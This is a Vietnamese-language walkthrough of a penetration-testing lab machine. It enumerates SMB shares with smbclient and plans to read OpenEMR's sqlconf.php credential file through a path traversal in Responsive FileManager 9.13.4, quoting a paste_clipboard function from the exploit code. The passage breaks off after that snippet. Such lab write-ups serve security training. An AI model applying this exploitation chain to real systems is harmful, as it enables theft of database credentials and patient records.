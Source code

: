 ```
┌──(kali㉿kali)-[~]
└─$ smbclient -L 192.168.120.204
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        docs            Disk      Documents
        IPC$            IPC       IPC Service (APEX server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Cùng xem qua nội dung share `docs`.

```
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.120.204/docs
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Apr  9 11:47:12 2021
  ..                                  D        0  Fri Apr  9 11:47:12 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 11:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 11:47:12 2021

                16446332 blocks of size 1024. 10839516 blocks available
smb: \>
```

Thật thú vị, tìm thấy hai tệp PDF quen thuộc ở đây - cùng một tệp mà đã thấy trong thư mục `Documents` của FileManager. Đoán một cách có căn cứ rằng hai thư mục này là giống nhau.

## Exploitation

### OpenEMR Directory Structure Discovery

Sau một chút nghiên cứu về phần mềm OpenEMR, tìm thấy trang GitHub của nó. Trang này nêu chi tiết cấu trúc thư mục của phần mềm. Điều hướng đến thư mục /sites/default, tìm thấy tệp cấu hình sqlconf.php. Kiểm tra tệp này, thấy rằng tệp này thường chứa thông tin kết nối cơ sở dữ liệu của ứng dụng, bao gồm thông tin xác thực người dùng cơ sở dữ liệu. Nếu có thể lấy được tệp này trên mục tiêu, điều đó có thể giúp có foothold.

### Responsive FileManager Path Traversal Vulnerability

Tiếp theo, tìm kiếm các exploit khả dụng cho Responsive FileManager v9.13.4. Điều đó dẫn đến Lỗ hổng Path Traversal này. Vì đã tìm hiểu cấu trúc thư mục của phần mềm OpenEMR và rất quan tâm đến tệp `/sites/default/sqlconf.php` trên máy chủ web, có thể thử tận dụng lỗ hổng này để lấy file đó.

Giải thích mã exloit, có thể thấy rằng nó có thể ghi một file được chọn vào thư mục chọn bằng hàm `paste_clipboard`.

```
def paste_clipboard(url, session_cookie):
	headers = {'Cookie': session_cookie,'Content-Type': 'application/x-www-form-urlencoded'}
	url_paste = "%s/filemanager/execute.php?action=paste_clipboard" % (url)
	r = requests.post(
	url_paste, data="path=", headers=headers)
	return r.status_code
```
